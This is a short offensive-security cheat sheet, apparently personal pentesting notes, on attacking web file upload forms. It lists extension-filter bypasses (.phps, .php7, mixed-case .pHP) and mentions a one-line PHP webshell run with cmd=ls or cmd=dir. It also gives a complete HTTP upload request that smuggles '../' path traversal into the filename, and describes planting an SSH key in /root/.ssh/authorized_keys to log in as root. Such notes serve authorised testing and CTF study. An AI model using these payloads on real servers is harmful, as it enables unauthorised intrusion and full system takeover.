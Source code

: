 # PHP File Uploads

If a filter is blocking `.php` extension uploads, try less commonly used php extensions like:
```
.phps
.php7
```

Another method is to capitalise various letters in the extension

```
.pHP instead of .php
```

remember it could be a php running on linux or windows so if you arent sure don't use the pentestmonkey `php-reverse-shell.php` just use a single line php webshell and then try
```
cmd=ls
```

or

```
cmd=dir
```

Always upload a file twice to a file upload form. If the web application shows that the file already exists you can use this method to brute force the contents of a web server. Also it might throw an error which could tell you more about the web server technology.

# Non Executable Files

If you can upload a file and use Burp to intercept the request and the change the `filename=../../../../../../../../foo.txt`

eg:

```
POST /upload HTTP/1.1
Host: vulnerable-website
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data;boundary=-------------------blah
Content-Length: 250
Origin: http://vulnerable-website
Connection: close
Referer: http://vulnerable-website
Upgrade-Insecure-Requests: 1

-------------------blah
Content-Disposition: form-data; name="blah"; filename="../../../../../../../../../foo.txt"
Content-Type: text/plain

bar is a foo

-------------------blah
```

Say that gets uploaded successfully and we now have `foo.txt` in the `/` directory. You won't know if it is successful but you can upload an ssh key's public key into `../../../../../../../../root/.ssh/authorized_keys` and then ssh in as root.

